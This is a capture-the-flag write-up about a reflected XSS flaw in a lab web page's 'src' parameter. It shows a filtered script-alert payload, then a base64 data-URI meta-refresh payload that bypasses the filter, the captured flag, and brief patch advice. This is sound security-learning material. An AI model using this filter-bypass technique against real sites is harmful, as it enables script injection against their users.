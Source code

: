 # B13-ReflectedXSS-nsaPage

## BREACH

PATH `http://192.168.56.110/index.php?page=media&src=nsa`

For this breach we can se an `object field` in the html that load something with the query `src`

```
<object data="http://192.168.56.110/images/nsa_prism.jpg"></object>
```

We can try to perform XSS attack by landing some `JS CODE` in this query but this dit not work.

> <script>alert('test3')</script>

Maybe there is a filter on something.

Following `OWASP` documentation we try to encode our input to pass the filter

```
<META HTTP-EQUIV="refresh"
CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">
```

> PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg = <script>alert('test3')</script>

We got the flag !

```
THE FLAG IS : 928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D
```

## PATCH

To patch XSS attack a conbination of thing is needed. First limit the damage of an XSS attack with disabling `HTTP TRACE` (debug) from everywhere. Also you need to filter the input and never interpret it as code but as string. You can encode input to prevent it from being interpreted directly or if not possible you can sanitize it and get just string.